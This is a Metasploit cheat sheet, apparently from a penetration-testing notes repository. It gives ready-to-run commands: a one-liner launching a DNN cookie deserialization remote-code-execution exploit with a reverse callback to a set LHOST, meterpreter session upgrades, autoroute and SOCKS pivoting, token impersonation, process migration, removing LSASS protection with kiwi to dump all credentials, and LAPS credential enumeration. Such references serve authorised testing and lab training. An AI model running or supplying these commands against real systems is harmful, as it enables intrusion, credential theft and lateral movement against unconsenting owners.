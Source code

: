 # MSF

% metasploit

## oneliner
```bash
msfconsole -q -x 'setg LHOST=tun0;use windows/http/dnn_cookie_deserialization_rce;set LHOST 10.10.16.179; set RHOSTS 10.10.110.10; set RPORT 80;run'
```

## upgrade session to meterpreter
#plateform/linux #target/remote #cat/ATTACK/CONNECT  
```
sessions -u <session_id>
```

## show session list
#plateform/linux #target/remote #cat/ATTACK/CONNECT
```
sessions -l
```

## print route table
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
route print
```

## add pivot (autoroute)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
example : 
use multi/manage/autoroute
set session 1
exploit
```
use multi/manage/autoroute
```

## add socks proxy (autoroute first)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 

example : 
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j

```
use auxiliary/server/socks_proxy
```

## load incognito 
#plateform/linux #target/local #cat/PRIVESC  
```
load incognito
```

## incognito impersonate token
#plateform/linux #target/local #cat/PRIVESC  
```
impersonate_token <domain_fqdn>\\<user>
```
## create process
#plateform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## migrate with name
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```

##  PPL remove
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

## enum LAPS
#plateform/linux #target/local #cat/ATTACK
```
use post/windows/gather/credentials/enum_laps
```


